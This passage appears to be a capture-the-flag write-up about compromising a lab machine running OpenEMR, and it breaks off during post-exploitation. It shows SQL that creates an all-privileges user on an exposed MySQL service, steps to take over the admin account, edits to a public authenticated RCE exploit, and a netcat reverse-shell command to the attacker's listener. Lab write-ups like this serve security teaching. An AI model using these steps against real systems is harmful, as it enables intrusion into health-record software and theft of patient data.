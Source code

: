 Remember we have __"5900 Mysql DB open"__ with admin priveligies, we can mount the db there

First step create a new user:
```sql
CREATE USER '<name>' IDENTIFIED BY '<passwd>'; #command to create user
```
```sql
GRANT ALL PRIVILEGES ON *.* TO '<name>' WITH GRANT OPTION; #command to grant privileges
```
Second step is to insert the right data:
```
Server Host: 10.10.113.90
Server Port: 5900

Database Name: openemr
Login Name: user created before
Password: the password we setup before

Name for the root account : admin
Root pass: the password we setup before

Initial user: admin
Initial user password: what you want
```
Then wait some time and follow this steps: __"Continue-> Continue-> Continue-> Continue-> http://10.10.113.90:8890/portal/interface/login/login.php?site=ID_name_created_before"__, type in the Initial user and Initial user password setted before and we're in as Administrator

![in](./pics/in.png)

searching around the website did not bring any results but we know the version, it's time to googling.

The first result it is this [one](https://www.exploit-db.com/exploits/45161) is a remote code execution (Authenticated) follow me in this steps:

First copy the payload and change the code at line __"47"__:
```python
r = s.post(args.host + "/interface/main/main_screen.php?auth=login&site=<site ID created before>", data=login)
```
Second run the listener and then execute the payload:
```bash
python3 -m pwncat -lp 6666 #pwncat listener

python2 exploit -u <user> -p <password> -c 'busybox nc 10.8.98.143 6666 -e /bin/bash' http://10.10.113.90:8890/portal
```
after some manual enumeration with the following command:
```bash
cat /etc/crontab

```